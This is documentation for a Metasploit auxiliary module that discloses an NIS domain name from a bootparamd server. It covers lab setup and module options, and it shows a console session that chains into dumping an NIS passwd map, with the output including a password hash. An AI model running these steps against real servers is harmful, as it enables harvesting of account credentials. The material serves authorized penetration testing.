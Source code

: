 ## Intro

From the `bootparamd(8)` man page:

> bootparamd is a server process that provides information to diskless clients necessary for booting. It consults the /etc/bootparams file to find the information it needs.

The module documented within will allow a tester to disclose the NIS
domain name from a server running `bootparamd`. After knowing the domain
name, the tester can follow up with `auxiliary/gather/nis_ypserv_map` to
dump a map from an NIS server (running as `ypserv`).

## Setup

Set up NIS as per <https://help.ubuntu.com/community/SettingUpNISHowTo>.
If the link is down, you can find it via the Wayback Machine.

After that is done, install `bootparamd` however your OS provides it.

Make sure you add a client to the `bootparams` file, which is usually at
`/etc/bootparams`.

Here is an example `bootparams` file (courtesy of
[@bcoles](https://github.com/bcoles)):

```
clientname root=nfsserver:/export/clientname/root
```

You can read the `bootparams(5)` man page for more info.

Lastly, the client should be added to `/etc/hosts` if it isn't already
resolvable.

## Options

**PROTOCOL**

Set this to either TCP or UDP. UDP is the default due to `bootparamd`.

**CLIENT**

Set this to the address of a client in the target's `bootparams` file.
Usually this is a host within the same network range as the target.

**XDRTimeout**

Set this to the timeout in seconds for XDR decoding of the response.

## Usage

```
msf > use auxiliary/gather/nis_bootparamd_domain
msf auxiliary(gather/nis_bootparamd_domain) > set rhost 192.168.33.10
rhost => 192.168.33.10
msf auxiliary(gather/nis_bootparamd_domain) > set client 192.168.33.10
client => 192.168.33.10
msf auxiliary(gather/nis_bootparamd_domain) > run

[+] 192.168.33.10:111 - NIS domain name for host ubuntu-xenial (192.168.33.10) is gesellschaft
[*] Auxiliary module execution completed
msf auxiliary(gather/nis_bootparamd_domain) >
```

After disclosing the domain name, you can use
`auxiliary/gather/nis_ypserv_map` to dump a map from an NIS server.

```
msf auxiliary(gather/nis_bootparamd_domain) > use auxiliary/gather/nis_ypserv_map
msf auxiliary(gather/nis_ypserv_map) > set rhost 192.168.33.10
rhost => 192.168.33.10
msf auxiliary(gather/nis_ypserv_map) > set domain gesellschaft
domain => gesellschaft
msf auxiliary(gather/nis_ypserv_map) > run

[+] 192.168.33.10:111 - Dumping map passwd.byname on domain gesellschaft:
list:*:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
ubuntu:$6$LXFAVGTO$yiCXi1KjLynOrapuhJE7tKnvdwknDMKiKM7Z8ZB19ht6CHmsS.CbUTm8q0cy5fFHEqA.Sg4Acl.0UtY.Y0JNE1:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
games:*:5:60:games:/usr/games:/usr/sbin/nologin
news:*:9:9:news:/var/spool/news:/usr/sbin/nologin
lp:*:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
sys:*:3:3:sys:/dev:/usr/sbin/nologin
backup:*:34:34:backup:/var/backups:/usr/sbin/nologin
uucp:*:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
systemd-resolve:*:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
man:*:6:12:man:/var/cache/man:/usr/sbin/nologin
bin:*:2:2:bin:/bin:/usr/sbin/nologin
gnats:*:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
sync:*:4:65534:sync:/bin:/bin/sync
systemd-network:*:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
uuidd:*:108:112::/run/uuidd:/bin/false
dnsmasq:*:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
root:*:0:0:root:/root:/bin/bash
sshd:*:110:65534::/var/run/sshd:/usr/sbin/nologin
systemd-bus-proxy:*:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
irc:*:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
messagebus:*:107:111::/var/run/dbus:/bin/false
_apt:*:105:65534::/nonexistent:/bin/false
mail:*:8:8:mail:/var/mail:/usr/sbin/nologin
syslog:*:104:108::/home/syslog:/bin/false
daemon:*:1:1:daemon:/usr/sbin:/usr/sbin/nologin
systemd-timesync:*:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
pollinate:*:111:1::/var/cache/pollinate:/bin/false
www-data:*:33:33:www-data:/var/www:/usr/sbin/nologin
proxy:*:13:13:proxy:/bin:/usr/sbin/nologin
lxd:*:106:65534::/var/lib/lxd/:/bin/false

[*] Auxiliary module execution completed
msf auxiliary(gather/nis_ypserv_map) >
```
